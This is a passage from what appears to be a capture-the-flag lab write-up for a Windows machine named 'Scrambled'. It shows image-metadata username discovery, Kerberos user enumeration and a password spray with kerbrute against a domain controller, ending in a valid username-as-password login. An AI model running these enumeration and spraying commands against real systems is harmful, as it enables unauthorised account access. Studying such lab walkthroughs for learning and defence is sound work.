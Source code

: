 -copy image link
```bash
┌──(pwn㉿kali)-[~/Scrambled]
└─$ wget http://10.10.11.168/images/ipconfig.jpg              

┌──(pwn㉿kali)-[~/Scrambled]
└─$ exiftool ipconfig.jpg 

Artist                          : VbScrub
XP Author                       : VbScrub

┌──(pwn㉿kali)-[~/Scrambled]
└─$ cat user.txt 
ksimpson
VbScrub
support
```

-http://10.10.11.168/salesorders.html
-http://10.10.11.168/passwords.html
```
Password Resets

Our self service password reset system will be up and running soon but in the meantime please call the IT support line and we will reset your password. If no one is available please leave a message stating your username and we will reset your password to be the same as the username. 
```

```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ sudo ./kerbrute userenum -d scrm.local --dc dc1.scrm.local /home/pwn/Scrambled/user.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/19/25 - Ronnie Flathers @ropnop

2025/02/19 06:35:06 >  Using KDC(s):
2025/02/19 06:35:06 >   dc1.scrm.local:88

2025/02/19 06:35:06 >  [+] VALID USERNAME:       ksimpson@scrm.local
2025/02/19 06:35:06 >  Done! Tested 3 usernames (1 valid) in 0.099 seconds

```

```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ sudo ./kerbrute passwordspray -d scrm.local --dc dc1.scrm.local /home/pwn/Scrambled/user.txt ksimpson

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/19/25 - Ronnie Flathers @ropnop

2025/02/19 06:36:26 >  Using KDC(s):
2025/02/19 06:36:26 >   dc1.scrm.local:88

2025/02/19 06:36:26 >  [+] VALID LOGIN:  ksimpson@scrm.local:ksimpson
2025/02/19 06:36:26 >  Done! Tested 3 logins (1 successes) in 0.409 seconds
```